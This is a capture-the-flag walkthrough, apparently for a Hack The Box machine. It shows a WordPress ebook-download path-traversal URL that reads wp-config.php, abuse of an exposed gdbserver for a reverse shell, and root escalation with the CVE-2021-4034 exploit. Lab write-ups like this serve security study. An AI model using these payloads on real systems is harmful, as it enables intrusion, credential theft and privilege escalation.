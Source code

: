 ## Path

### User

1. `wpscan` shows that the plugin `ebook-download` has directory traversal. We can download the files on the box.

```
wget http://$ip/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```

2. Scan all ports found port 1337 is open.
3. Connect to port 1337, but nothing happen.
4. Write the script `read_file.py` to leaverage the file read vuln to find out which process might be running the port 1337, and get its cmdline. The result shows that it is a gdbserver:

```
/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
```

5. Use `gdb` to connect to the gdb server.

```
$ gdb
pwndbg> target remote 10.10.11.125:1337
Remote debugging using 10.10.11.125:1337
Reading /usr/bin/true from remote target...
```

6. Follow [Hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver#upload-and-execute) to get a reverse shell.

### Root

1. `screen` has SUID, and there's a script keep screen root session running, so it might be the way.

2. Run `linpeas` and found CVE-2021-4034 useable.

3. Run the exploit [CVE-2021-4034](https://www.exploit-db.com/exploits/50689).

```
## compile locally
$ make

## put on the box
$ scp -i ../ssh/id_ed25519 evil.so user@10.10.11.125:/tmp
$ scp -i ../ssh/id_ed25519 exploit.c user@10.10.11.125:/tmp

## run exploit and get root shell
$ cd /tmp; ./exploit
# whoami
root
```

